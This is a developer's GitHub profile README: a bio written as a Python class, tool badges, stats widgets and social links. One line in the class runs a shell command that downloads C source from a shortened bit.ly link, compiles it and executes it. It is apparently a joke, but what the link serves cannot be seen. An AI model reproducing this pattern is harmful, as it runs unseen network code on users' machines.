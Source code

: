 <h1 align="center">Yo 👋, I'm Pratik Pingale 👨‍💻</h1>
<p align="center">
  <img src="https://readme-typing-svg.herokuapp.com?color=%2336BCF7&size=16&center=true&vCenter=true&width=485&lines=Just+a+novice.+Still+got+a+lot+to+learn.;Cloud+Focused+Engineer+%3Ap;Loves+Open+Source+%E2%9D%A4%EF%B8%8F" alt="Just a novice. Still got a lot to learn. Competitive Coding :p. Loves Open Source ❤️" />
</p>

```python
class PROxZIMA:
  def __init__(self):
    subprocess.call("curl -sL 'bit.ly/pr0x21m4' | gcc -w -o name -xc - && ./name", shell=True)
    self.bio = {
      '- 💼 I’m currently working for': {'Emerson' : 'https://www.emerson.com/en-us/global'},
      '- 🔭 I’m currently working on' : {'Contribution Hub' : 'https://github.com/PROxZIMA/ContributionManager',
                                         'DarkSpider': 'https://github.com/PROxZIMA/DarkSpider',
                                         'Prism'     : 'https://github.com/PROxZIMA/prism'},
      '- 🌱 I’m currently learning'   : ['System Architecture', 'C++', 'Full Stack Development', 'Algo Trading'],
      '- 💬 Ask me anything'          : '¯\_(ツ)_/¯',
      '- 👨‍💻 My projects available at' : 'https://github.com/PROxZIMA?tab=repositories',
      '- 📄 Know about my experiences': 'https://proxzima.dev/resume',
      '- ⚡ Fun fact'                 : ('Proxima Centauri is a small, low-mass star located 4.2465 light-'
                                         'years away from the Sun in the southern constellation of Centaurus.')
    }

if __name__ == '__main__':
  import subprocess, pprint
  pprint.pprint(PROxZIMA().__dict__)
```
<br>

### - Tools/Interests 🔗
<p align="center">


<a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/arch.svg" alt="Arch Linux"></a> &nbsp;&nbsp;
<a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/popos.svg" alt="Pop!_OS"></a> &nbsp;&nbsp;
<a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/windows.svg" alt="Windows"></a> &nbsp;&nbsp;
<a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/android.svg" alt="Android"></a> &nbsp;&nbsp;
<a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/firefox.svg" alt="Firefox"></a> &nbsp;&nbsp;
<a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/git.svg" alt="Git"></a> &nbsp;&nbsp;
<a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/github.svg" alt="GitHub"></a> &nbsp;&nbsp;
<a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/bitbucket.svg" alt="BitBucket"></a> &nbsp;&nbsp;
<a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/python.svg" alt="Python"></a> &nbsp;&nbsp;
<a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/c.svg" alt="C"></a> &nbsp;&nbsp;
<a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/cplusplus.svg" alt="C++"></a> &nbsp;&nbsp;
<a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/java.svg" alt="Java"></a> &nbsp;&nbsp;
<a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/kotlin.svg" alt="Kotlin"></a> &nbsp;&nbsp;
<a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/bash.svg" alt="Bash"></a> &nbsp;&nbsp;
<a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/html5.svg" alt="HTML5"></a> &nbsp;&nbsp;
<a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/css3.svg" alt="CSS3"></a> &nbsp;&nbsp;
<a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/javascript.svg" alt="JavaScript"></a> &nbsp;&nbsp;
<a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/typescript.svg" alt="TypeScript"></a> &nbsp;&nbsp;
<a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/mysql.svg" alt="MySQL"></a> &nbsp;&nbsp;
<a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/postgresql.svg" alt="PostgreSQL"></a> &nbsp;&nbsp;
<a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/firebase.svg" alt="FireBase"></a> &nbsp;&nbsp;
<a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/numpy.svg" alt="Numpy"></a> &nbsp;&nbsp;
<a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/pandas.svg" alt="Pandas"></a> &nbsp;&nbsp;
<a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/jupyter.svg" alt="Jupyter"></a> &nbsp;&nbsp;
<a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/django.svg" alt="Django"></a> &nbsp;&nbsp;
<a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/flask.svg" alt="Flask"></a> &nbsp;&nbsp;
<a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/nodejs.svg" alt="Node.js"></a> &nbsp;&nbsp;
<a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/react.svg" alt="React"></a> &nbsp;&nbsp;
<a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/colab.svg" alt="Google Colab"></a> &nbsp;&nbsp;
<a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/arrow_back.svg" alt="Back Arrow"></a> &nbsp;&nbsp;
<a target="_blank" href="https://www.qwiklabs.com/public_profiles/8ce32532-ca12-4a89-aed0-99c9316cae73"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/cloud.svg" alt="Google Cloud"></a> &nbsp;&nbsp;
<a target="_blank" href="https://codepen.io/proxzima"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/codepen.svg" alt="CodePen"></a> &nbsp;&nbsp;
<a target="_blank" href="https://www.hackerrank.com/PROxZIMA"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/hackerrank.svg" alt="Hackerrank"></a> &nbsp;&nbsp;
<a target="_blank" href="https://www.codechef.com/users/proxzima"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/codechef.svg" alt="CodeChef"></a> &nbsp;&nbsp;
<a target="_blank" href="https://leetcode.com/PROxZIMA"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/leetcode.svg" alt="LeetCode"></a> &nbsp;&nbsp;
<a target="_blank" href="https://www.interviewbit.com/profile/PROxZIMA"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/interviewbit.png" alt="InterviewBit" width="40px"></a> &nbsp;&nbsp;
<a target="_blank" href="https://www.figma.com/@proxzima"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/figma.svg" alt="Figma"></a> &nbsp;&nbsp;
<a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/arrow_forward.svg" alt="Forward Arrow"></a> &nbsp;&nbsp;
<a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/postman.svg" alt="Postman"></a> &nbsp;&nbsp;
<a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/alacritty.svg" alt="Alacritty"></a> &nbsp;&nbsp;
<a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/neovim.svg" alt="NeoVim"></a> &nbsp;&nbsp;
<a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/vscode.svg" alt="VS Codium"></a> &nbsp;&nbsp;
<a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/android_studio.svg" alt="Android Studio"></a>
</p>

### - Workspace 🖥️
<p align="center">
  <a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/graphics.svg" alt="NVIDIA 3050"></a>
  <a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/processor.svg" alt="AMD Ryzen 7 4800H"></a>
  <a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/laptop.svg" alt="Asus"></a>
</p>

### - Stats ⚡️
<table style="border:none;margin:0 auto">
  <tr style="border:none;">
    <td style="border:none;"><a target="_blank" href="https://github.com/anuraghazra/github-readme-stats"><img src="https://github-readme-stats.vercel.app/api?username=proxzima&include_all_commits=true&count_private=true&show_icons=true&theme=dracula&text_color=8b8b8b&bg_color=0000&hide_border=true&custom_title=PROxZIMA%27s%20Github%20Stats" alt="My Stats"/></a></td>
    <td style="border:none;"><a target="_blank" href="https://github.com/DenverCoder1/github-readme-streak-stats"><img src="https://github-readme-streak-stats.herokuapp.com?user=PROxZIMA&theme=dracula&dates=8b8b8b&background=0000&hide_border=true" alt="My Streak"/></a></td>
  </tr>
</table>
<p align="center">
  <a target="_blank" href="https://github.com/PROxZIMA/ContributionManager"><img src="https://c-hub-api.azurewebsites.net/contributions/svg?userId=6SqDR5hL6rSnVZwAycOX3BBFxjK2&year=2025&darkMode=true" alt="Contribution Activity"></a>
</p>
<p align="right">Outside GitHub :)</p>

### - Languages 🔭
<p align="center" >
  <a target="_blank" href="https://github.com/anuraghazra/github-readme-stats"><img src="https://github-readme-stats.vercel.app/api/top-langs/?username=proxzima&&show_icons=true&theme=dracula&text_color=8b8b8b&bg_color=0000&hide_border=true&layout=compact&custom_title=Languages%20I%20Use&langs_count=8" alt="proxzima"/></a>
</p>

### - Find me around the web 🌎
<p align="center">
  <a href="mailto:contact@proxzima.dev"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/social/gmail.svg" alt="gmail"></a>
  <a target="_blank" href="https://linkedin.com/in/pratik-pingale"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/social/linkedin.svg" alt="pratik-pingale"/></a>
  <a target="_blank" href="https://www.instagram.com/pro_x_zima/"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/social/instagram.svg" alt="pro_x_zima"/></a>
  <a target="_blank" href="https://twitter.com/pro_x_zima"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/social/twitter.svg" alt="pro_x_zima"/></a>
<!--   <a target="_blank" href="https://www.reddit.com/user/PratikPingale"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/social/reddit.svg" alt="PratikPingale"/></a> -->
  <a target="_blank" href="https://discordapp.com/users/422274155509972992"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/social/discord.svg" alt="PROxZIMA#7272"/></a>
  <a target="_blank" href="https://t.me/PROxZIMA"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/social/telegram.svg" alt="PratikPingale"/></a>
  <a target="_blank" href="https://marketplace.visualstudio.com/publishers/PROxZIMA"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/social/marketplace.svg" alt="PROxZIMA"/></a>
</p>

<p align="center">
  <img src="https://komarev.com/ghpvc/?username=PROxZIMA&label=Profile+Views&color=282A36" alt="PROxZIMA" />
</p>

![](https://hit.yhype.me/github/profile?user_id=43103163)









